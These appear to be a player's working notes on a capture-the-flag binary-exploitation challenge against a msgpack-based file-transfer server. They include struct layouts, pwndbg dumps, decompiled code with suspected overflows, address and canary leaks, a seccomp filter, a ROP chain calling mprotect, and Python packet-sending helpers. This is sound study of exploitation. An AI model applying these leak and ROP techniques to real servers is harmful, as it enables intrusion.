

```c
struct sockaddr {
    unsigned short sa_family;    // Address family (e.g., AF_INET, AF_INET6)
    char           sa_data[14];  // Protocol-specific address data
};

// sa_data
struct sockaddr_in {
    short            sin_family;   // e.g., AF_INET
    unsigned short   sin_port;     // Port number (in network byte order)
    struct in_addr   sin_addr;     // IPv4 address
    char             sin_zero[8];  // Padding to make structure same size as sockaddr
};
```

- init_adrr:
```python
inet_addr("0.0.0.0"):
This converts the human-readable string "0.0.0.0" into a 32-bit integer in network byte order (Big-Endian). "0.0.0.0" is a special address in network programming representing INADDR_ANY, meaning the socket will bind to all available network interfaces.
```

- Usage:
```c
bind(sockfd, (struct sockaddr *)&my_addr, sizeof(my_addr));
```

- timeval struct:
```c
struct timeval // sizeof=0x10
{                                       // XREF: main/r
    __time_t tv_sec;                    // XREF: main:loc_3F47/w
    __suseconds_t tv_usec;              // XREF: main+191/w
};
```

- fd_set:
```c
typedef struct {
    long __fds_bits[1024 / (8 * sizeof(long))];
} fd_set;
```

A readfds array has fixed size: 128 bytes --> 16 qword

```c
struct msgpack_object_str {
    uint32_t size;
    const char *ptr;
};

/*
 * Used when:
 * obj.type == MSGPACK_OBJECT_ARRAY
 * obj.type == 6
 */
typedef struct msgpack_object_array {
    uint32_t size;                 // number of elements in array
    struct msgpack_object *ptr;    // pointer to first msgpack_object element
} msgpack_object_array;

typedef struct msgpack_object { // 0x18 bytes
    uint32_t type;
    union {
        bool boolean;
        uint64_t u64;
        int64_t i64;
        struct {
            uint32_t size;
            msgpack_object_kv *ptr;
        } map;
        struct {
            uint32_t size;
            char *ptr;
        } str;

         struct {
            uint32_t size;
            struct msgpack_object *ptr;
        } array;
       
    } via;
} msgpack_object;

struct msgpack_object_kv {
    struct msgpack_object key;
    struct msgpack_object val;
};

typedef struct msgpack_unpacked {
    msgpack_zone *zone;
    msgpack_object data;
} msgpack_unpacked;
```

```c
typedef struct msgpack_unpacker {
    char* buffer;
    size_t used;
    size_t free;
    size_t off;
    size_t parsed;
    msgpack_zone* z;
    size_t initial_buffer_size;
    void* ctx;
} msgpack_unpacker;
```

```c
typedef struct msgpack_zone_finalizer {
    void (*func)(void *data);
    void *data;
} msgpack_zone_finalizer;

typedef struct msgpack_zone_finalizer_array {
    msgpack_zone_finalizer *tail;
    msgpack_zone_finalizer *end;
    msgpack_zone_finalizer *array;
} msgpack_zone_finalizer_array;

struct msgpack_zone_chunk;
typedef struct msgpack_zone_chunk msgpack_zone_chunk;

typedef struct msgpack_zone_chunk_list {
    size_t free;
    char *ptr;
    msgpack_zone_chunk *head;
} msgpack_zone_chunk_list;

typedef struct msgpack_zone {
    msgpack_zone_chunk_list chunk_list;
    msgpack_zone_finalizer_array finalizer_array;
    size_t chunk_size;
} msgpack_zone;
```

```python
# msgpack-c internal object type numbers
# These are the numbers you see in GDB after msgpack parses your packet.

MSGPACK_OBJECT_NIL = 0
# Python: None
# Meaning: null / nil

MSGPACK_OBJECT_BOOLEAN = 1
# Python: True or False
# Meaning: boolean

MSGPACK_OBJECT_POSITIVE_INTEGER = 2
# Python: 123
# Meaning: positive integer / unsigned integer

MSGPACK_OBJECT_NEGATIVE_INTEGER = 3
# Python: -123
# Meaning: negative integer

MSGPACK_OBJECT_FLOAT = 4
# Python: 1.23
# Meaning: float / double

MSGPACK_OBJECT_STR = 5
# Python: "AAAA"
# Meaning: string

MSGPACK_OBJECT_ARRAY = 6
# Python: ["A", "B"]
# Meaning: array / list

MSGPACK_OBJECT_MAP = 7
# Python: {"key": "value"}
# Meaning: map / dictionary

MSGPACK_OBJECT_BIN = 8
# Python: b"AAAA"
# Meaning: raw binary bytes

MSGPACK_OBJECT_EXT = 9
# Python: msgpack.ExtType(1, b"AAAA")
# Meaning: extension type

MSGPACK_OBJECT_FLOAT32 = 10
# Python: rarely used by default
# Meaning: 32-bit float
```

```python
Num     Type           Disp Enb Address            What
2       breakpoint     keep y   0x0000555555403ff9 <main+568>
	breakpoint already hit 1 time
7       breakpoint     keep y   0x00005555554042e8 <main+1319>
pwndbg> 
```
```python
0x7fffffffded0
```


```python
# pointer to object
0a:0050│-450 0x7fffffffded0 —▸ 0x555555821a30 ◂— 0x1fb8
# msgpack type
0b:0058│-448 0x7fffffffded8 ◂— 6
# first 4 byte: object array size
0c:0060│-440 0x7fffffffdee0 ◂— 0x7700000003
# pointer to list of object
# 0x0: object type
# 0x8: value
# OBJECT POINTER
0d:0068│-438 0x7fffffffdee8 —▸ 0x555555821a78 ◂— 2
# end
0e:0070│-430 0x7fffffffdef0 —▸ 0x555555811230 ◂— 0xcd24029300000001
0f:0078│-428 0x7fffffffdef8 ◂— 0xa /* '\n' */
pwndbg> 
10:0080│-420 0x7fffffffdf00 ◂— 0xffbb
11:0088│-418 0x7fffffffdf08 ◂— 0xa /* '\n' */
12:0090│-410 0x7fffffffdf10 ◂— 0
13:0098│-408 0x7fffffffdf18 ◂— 0
14:00a0│-400 0x7fffffffdf20 ◂— 0xffc5
15:00a8│-3f8 0x7fffffffdf28 —▸ 0x555555821200 —▸ 0x7fffffffdf18 ◂— 0
16:00b0│-3f0 0x7fffffffdf30 ◂— 0x45000002
```

- object:
```python
00:0000│     0x555555821a30 ◂— 0x1fb8
01:0008│     0x555555821a38 —▸ 0x555555821ac0 ◂— 0
02:0010│     0x555555821a40 —▸ 0x555555821a70 ◂— 0
03:0018│     0x555555821a48 ◂— 0
... ↓     2 skipped
06:0030│     0x555555821a60 ◂— 0x2000
07:0038│     0x555555821a68 ◂— 0x2011
pwndbg> 
08:0040│     0x555555821a70 ◂— 0
# OBJECT POINTER
09:0048│     0x555555821a78 ◂— 2
0a:0050│     0x555555821a80 ◂— 2
0b:0058│     0x555555821a88 ◂— 0x20 /* ' ' */
0c:0060│     0x555555821a90 ◂— 2
0d:0068│     0x555555821a98 ◂— 0x24 /* '$' */
0e:0070│     0x555555821aa0 ◂— 0x20 /* ' ' */
0f:0078│     0x555555821aa8 ◂— 2
pwndbg> 
10:0080│     0x555555821ab0 ◂— 0x100
11:0088│     0x555555821ab8 ◂— 0x20 /* ' ' */
12:0090│     0x555555821ac0 ◂— 0
```


```c
if ( obj_array_len != 6 || (unsigned int)obj_array_len2 <= 1 || *(_DWORD *)object_type != 2 )

...
obj_type = obj_array_len2;
obj_ptr = object_type;
packet_header[0] = *(_QWORD *)(object_type + 8);
req_ptr = find_request(*(_QWORD *)&socket_2.sa_family, *(_QWORD *)&socket_2.sa_data[6]);
if ( req_ptr )
...

msgpack_unpacker *unpacked; // [rsp+50h] [rbp-450h] BYREF
  int obj_array_len; // [rsp+58h] [rbp-448h]
  __int64 obj_array_len2; // [rsp+60h] [rbp-440h]
  __int64 object_type; // [rsp+68h] [rbp-438h]
```

- setvbuf usage:
```c
setvbuf((FILE *)packet->fd_packet, 0, 0, (unsigned __int16)packet->blksize);
setvbuf(stream, buffer, mode, size);
```

ntohs() means:
```c
network to host short
```

- sendto usage:

```c
sendto(fd, packet_buf, packet_len, 0, &dest_host, client_addr_len);
```

```
fd               = socket file descriptor
packet_buf       = pointer to data you want to send
packet_len       = number of bytes to send
0                = flags, usually 0
&client_addr     = destination IP/port
client_addr_len  = size of destination address struct
```

- Example sendto:
```python
► 0x555555402b40 <send_oack+401>    call   sendto@plt                  <sendto@plt>
        fd: 0 (socket:[6108151])
        buf: 0x555555824d10 ◂— 0x2479656ba3880692
        n: 0x33
        flags: 0
        addr: 0x7fffffffe0e8 ◂— 0x100007fcf9e0002
        addr_len: 0x10

dest_ip: 0x7fffffffe0e8

struct sockaddr_in {
    uint16_t sin_family; # 02 00
    uint16_t sin_port;   # 9e cf
    uint32_t sin_addr;   # 7f 00 00 01
}

sin_family = AF_INET / IPv4
sin_port   = 0x9ecf = 40655
sin_addr   = 127.0.0.1
```

- sevbuf usage:
```c
int setvbuf(FILE *stream, char *buf, int mode, size_t size);

```
-->
```c
FILE *stream = (FILE *)packet->fd_packet;
char *buf = NULL;
int mode = 0;
size_t size = (uint16_t)packet->blksize;

setvbuf(stream, NULL, 0, size);
```
-->
```c
setvbuf(packet->file, NULL, _IOFBF, packet->blksize);
```
=> It changes the buffer size of a FILE * stream to size: **packet->blksize**.


- send_oack(packet *packet):
```c
  {
    opt_name_len = strlen(oack_opts[i].name);   // bof
    msgpack_pack_str(packer, opt_name_len);     // write str header len
    
    // suspect bof because of strlen
    len2 = strlen(oack_opts[i].name);           // bof
    msgpack_pack_str_body((__int64)packer, (__int64)oack_opts[i].name, len2);// writes string bytes
    msgpack_pack_uint16(packer, oack_opts[i].val);
  }
```

```c
fread(
    ptr,                         // where to store file data
    1,                           // read 1 byte per element
    (uint16_t)packet->blksize,    // read up to blksize bytes
    packet->fp_packet            // FILE* to read from
);

fwrite(
    payload_ptr,          // data to write
    payload_len,          // size of one element
    1,                    // write 1 element
    packet->fp_packet     // FILE* to write into
);
```

```python
Num     Type           Disp Enb Address            What
2       breakpoint     keep y   0x00005555554042e8 <main+1319>
	breakpoint already hit 2 times
3       breakpoint     keep y   0x0000555555403ff9 <main+568>
	breakpoint already hit 2 times
4       breakpoint     keep y   0x00005555554026d0 <send_data+338>
5       breakpoint     keep y   0x0000555555403127 <process_new+364>
	breakpoint already hit 1 time
6       breakpoint     keep y   0x00005555554049f5 <main+3124>
	breakpoint already hit 1 time
7       breakpoint     keep y   0x00005555554045e9 <main+2088>
8       breakpoint     keep y   0x0000555555403bbe <check_crc32+48>
```

```c
setvbuf((FILE *)packet->fp_packet, 0, 0, (unsigned __int16)packet->blksize);// 512 <= blksize <= 65464
                                                // 0x200 <= blksize <= 0xffb8
                                                // Set size of fp_packet
```

```c
void msgpack_unpacker_destroy(msgpack_unpacker *mpac)
{
    msgpack_zone_free(mpac->z);
    free(mpac->ctx);
    decr_count(mpac->buffer);
}

static inline void msgpack_unpacked_destroy(msgpack_unpacked *result)
{
    if (result->zone != NULL) {
        msgpack_zone_free(result->zone);
        result->zone = NULL;
        memset(&result->data, 0, sizeof(msgpack_object));
    }
}

///////////////////////////////////////////////////////
mpac->z      = msgpack zone / arena
mpac->ctx    = parser context
mpac->buffer = internal input buffer, through refcount decrement

unpacked.zone = arena holding parsed arrays/maps/copied objects
unpacked.data = zeroed after free
```

```python
00:0000│     0x555555823ad0 ◂— 0xfbad2484
01:0008│     0x555555823ad8 ◂— 0
... ↓     5 skipped
            _IO_buf_base
07:0038│     0x555555823b08 —▸ 0x555555823d00 —▸ 0x7ffff77ec2c0 —▸ 0x7ffff77ec2b0 —▸ 0x7ffff77ec2a0 ◂— ...
            _IO_buf_end
08:0040│     0x555555823b10 —▸ 0x555555824d00 ◂— 0x1010
09:0048│     0x555555823b18 ◂— 0
... ↓     3 skipped
0d:0068│     0x555555823b38 —▸ 0x7ffff77ec680 (_IO_2_1_stderr_) ◂— 0xfbad2887
0e:0070│     0x555555823b40 ◂— 3
0f:0078│     0x555555823b48 ◂— 0
10:0080│     0x555555823b50 ◂— 0
11:0088│     0x555555823b58 —▸ 0x555555823bb0 ◂— 0
12:0090│     0x555555823b60 ◂— 0xffffffffffffffff
13:0098│     0x555555823b68 ◂— 0
14:00a0│     0x555555823b70 —▸ 0x555555823bc0 ◂— 0
15:00a8│     0x555555823b78 ◂— 0
... ↓     2 skipped
18:00c0│     0x555555823b90 ◂— 0
... ↓        2 skipped
1b:00d8│     0x555555823ba8 —▸ 0x7ffff77e82a0 (_IO_file_jumps) ◂— 0
```

```python
pwndbg> inf b
Num     Type           Disp Enb Address            What
2       breakpoint     keep y   0x00005555554042e8 <main+1319>
	breakpoint already hit 9 times
3       breakpoint     keep y   0x0000555555403ff9 <main+568>
	breakpoint already hit 9 times
4       breakpoint     keep y   0x00005555554026d0 <send_data+338>
5       breakpoint     keep y   0x0000555555403127 <process_new+364>
	breakpoint already hit 6 times
6       breakpoint     keep y   0x00005555554045e9 <main+2088>
7       breakpoint     keep y   0x0000555555403c2d <check_crc32+159>
8       breakpoint     keep y   0x00005555554030ff <process_new+324>
	breakpoint already hit 6 times
9       breakpoint     keep y   0x0000555555404ccf <main+3854>
10      breakpoint     keep y   0x000055555540468e <main+2253>
	breakpoint already hit 4 times
11      breakpoint     keep y   0x0000555555404308 <main+1351>
	breakpoint already hit 2 times
12      breakpoint     keep y   0x00005555554039e4 <process_new+2601>
	breakpoint already hit 6 times
13      breakpoint     keep y   0x00005555554037ad <process_new+2034>
	breakpoint already hit 5 times
14      breakpoint     keep y   0x0000555555403756 <process_new+1947>
	breakpoint already hit 4 times
15      breakpoint     keep y   0x0000555555402e23 <process_send+112>
```

**here is /tmp. flag is under /home/hitcon_ftp/flag.\n**

```python
heap Layout: 
Fp: 0x220 : 0x555555823ad0
fp buf: 0x1000 : 0x555555823d00
Stored packet: 0x340 : 0x555555824d10
```

```python
pwndbg> tel 0x555555821a20
00:0000│         0x555555821a20 ◂— 0x830
01:0008│         0x555555821a28 ◂— 0x40 /* '@' */
02:0010│         0x555555821a30 ◂— 0x1f40
03:0018│         0x555555821a38 —▸ 0x555555821b38 ◂— 0
04:0020│         0x555555821a40 —▸ 0x555555821a70 ◂— 0
05:0028│ rax rdi 0x555555821a48 —▸ 0x555555823a90 ◂— 0
06:0030│         0x555555821a50 —▸ 0x555555823ac0 ◂— 0
07:0038│         0x555555821a58 —▸ 0x555555823a80 —▸ 0x555555408e02 (decr_count) ◂— push rbp
```

```python
select: 0x555555403ff9
find_request: 0x5555554042e8
case 3 cmp cnt: 0x555555404a86
```

```
2       breakpoint     keep y   0x0000555555403ff9 <main+568>
	breakpoint already hit 5 times
3       breakpoint     keep y   0x00005555554042e8 <main+1319>
	breakpoint already hit 4 times
4       breakpoint     keep y   0x0000555555404a86 <main+3269>
5       breakpoint     keep y   0x000055555540494b <main+2954>
	breakpoint already hit 1 time
6       breakpoint     keep y   0x0000555555402ca7 <process_recv+179>
7       breakpoint     keep y   0x0000555555403c30 <check_crc32+162>
	breakpoint already hit 1 time
8       breakpoint     keep y   0x0000555555403bbe <check_crc32+48>
	breakpoint already hit 1 time
9       breakpoint     keep y   0x0000555555404da6 <main+4069>
	breakpoint already hit 3 times
10      breakpoint     keep y   0x00005555554037ad <process_new+2034>
```
set {long long} 0x7ffffffeeade=0

```c
size_t to_do = n;
size_t count = 0;

/* calculate available space */
if (line_buffered && currently_putting)
    count = f->_IO_buf_end - f->_IO_write_ptr;
else if (f->_IO_write_end > f->_IO_write_ptr)
    count = f->_IO_write_end - f->_IO_write_ptr;

/* only copy at most available space */
if (count > to_do)
    count = to_do;

f->_IO_write_ptr = __mempcpy(f->_IO_write_ptr, data, count);
to_do -= count;

/* if remaining data exists, flush and maybe write directly */
if (to_do > 0)
{
    _IO_OVERFLOW(f, EOF);

    block_size = f->_IO_buf_end - f->_IO_buf_base;
    do_write = to_do - (to_do % block_size);

    if (do_write)
        new_do_write(f, data_after_buffer_copy, do_write);

    if (remaining)
        _IO_default_xsputn(f, remaining_data, remaining_len);
}
```

```python
[*] stack leak: 0x7fffffffdf18
[*] libc leak: 0x7ffff77ec680
[*] libc base: 0x7ffff7400000
[*] binary leak: 0x555555408e02
[*] binary base: 0x555555400000
[*] canary leak: 0x72fdfd612e89d900
```

- Seccomp
```python
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x15 0x00 0x01 0x0000000f  if (A != rt_sigreturn) goto 0006
 0005: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0006: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x15 0x00 0x01 0x0000003c  if (A != exit) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0012
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0012: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0014
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0014: 0x15 0x00 0x01 0x00000001  if (A != write) goto 0016
 0015: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0016: 0x15 0x00 0x01 0x00000003  if (A != close) goto 0018
 0017: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0018: 0x15 0x00 0x01 0x00000004  if (A != stat) goto 0020
 0019: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0020: 0x15 0x00 0x01 0x00000005  if (A != fstat) goto 0022
 0021: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0022: 0x15 0x00 0x01 0x00000008  if (A != lseek) goto 0024
 0023: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0024: 0x15 0x00 0x01 0x00000010  if (A != ioctl) goto 0026
 0025: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0026: 0x15 0x00 0x01 0x00000101  if (A != openat) goto 0028
 0027: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0028: 0x15 0x00 0x01 0x0000000c  if (A != brk) goto 0030
 0029: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0030: 0x15 0x00 0x01 0x00000009  if (A != mmap) goto 0032
 0031: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0032: 0x15 0x00 0x01 0x0000000a  if (A != mprotect) goto 0034
 0033: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0034: 0x15 0x00 0x01 0x00000017  if (A != select) goto 0036
 0035: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0036: 0x15 0x00 0x01 0x00000029  if (A != socket) goto 0038
 0037: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0038: 0x15 0x00 0x01 0x0000002c  if (A != sendto) goto 0040
 0039: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0040: 0x15 0x00 0x01 0x0000002d  if (A != recvfrom) goto 0042
 0041: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0042: 0x15 0x00 0x01 0x00000031  if (A != bind) goto 0044
 0043: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0044: 0x06 0x00 0x00 0x00000000  return KILL
 ```

 ```python
41:0208│-020 0x7fffffffe300 ◂— 'aaaaaaaa'
42:0210│-018 0x7fffffffe308 ◂— 0x65e15ac7d3cbbd00
43:0218│-010 0x7fffffffe310 ◂— 0x4242424242424200
44:0220│-008 0x7fffffffe318 ◂— 0x4242424242424242 ('BBBBBBBB')
45:0228│ rbp 0x7fffffffe320 ◂— 0x4242424242424242 ('BBBBBBBB')
46:0230│+008 0x7fffffffe328 —▸ 0x7ffff742164f ◂— pop rdi
47:0238│+010 0x7fffffffe330 ◂— 0x44444444440022 /* '"' */
pwndbg> 
48:0240│+018 0x7fffffffe338 —▸ 0x7ffff7423a6a ◂— pop rsi
49:0248│+020 0x7fffffffe340 ◂— 0
4a:0250│+028 0x7fffffffe348 —▸ 0x7ffff7401b96 ◂— pop rdx
4b:0258│+030 0x7fffffffe350 ◂— 0
4c:0260│+038 0x7fffffffe358 —▸ 0x7ffff751b7e0 (mprotect) ◂— mov eax, 0xa
4d:0268│+040 0x7fffffffe360 ◂— 0x44444444440022 /* '"' */
4e:0270│+048 0x7fffffffe368 —▸ 0x7fffffffe400 ◂— 1
```
```python
def path_2(name, p = p, load = None, load2 = None):
    pack = [
        2, name, "netascii"
    ]
    if load is not None:
        pack.append(load)
    if load2 is not None:
        pack.append(load2)

    s_pack(pack, p)
    res = r_pack(p)
    return 0, res

def s_pack(pack, p = p, condition = 1):
    if condition == 1:
        data = msgpack.packb(pack,use_bin_type= True )
    else:
        data = msgpack.packb(pack,use_bin_type= False )
         
    print(f'packet: {pack}')
    info(f'packet size: {size(data)}')
    print("[>] source:", p.getsockname())

    if args.REMOTE:
        p.sendto(data, ("chall.pwnable.tw", port))
        # p.sendto(data, ("0", 36))
    else:
        p.sendto(data, ("0", 69))


def r_pack(p):
    data, addr = p.recvfrom(0x10000)
    print("[<] from:", addr)
    print(f'Raw packet data received: {data}')
    try:
        print("[<] msgpack received:", msgpack.unpackb(data, raw=True, strict_map_key=False))
    except Exception as e:
        print("[!] msgpack unpack failed:", e)

    return data
```